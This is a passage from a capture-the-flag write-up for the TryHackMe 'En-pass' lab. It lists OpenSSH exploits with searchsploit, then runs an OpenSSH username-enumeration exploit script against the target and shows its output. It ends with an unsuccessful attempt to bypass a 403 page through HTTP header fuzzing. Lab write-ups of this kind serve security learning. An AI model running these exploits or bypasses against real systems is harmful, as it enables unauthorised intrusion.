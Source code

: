 It's indeed correct!

Now, we have the private key. But which user belongs to that key?

**Let's brute force username!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# searchsploit openssh 7.2
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                             | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                       | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                      | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection              | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                 | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Dom | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading             | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                 | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                | linux/remote/40113.txt
--------------------------------------------------------------------- ---------------------------------

┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# searchsploit -m 45939
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# python2 45939.py $RHOSTS test  
/usr/local/lib/python2.7/dist-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[+] test is a valid username
```

Hmm... False positive?

Do you remember we still have one thing we need to check?

**`/403.php`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/En-pass/images/Pasted%20image%2020230101004013.png)

Let's try to bypass this 403.

**According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses#http-headers-fuzzing), we can use different HTTP headers try to bypass 403:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/En-pass/images/Pasted%20image%2020230101005307.png)

However, I tried all of them, no luck.
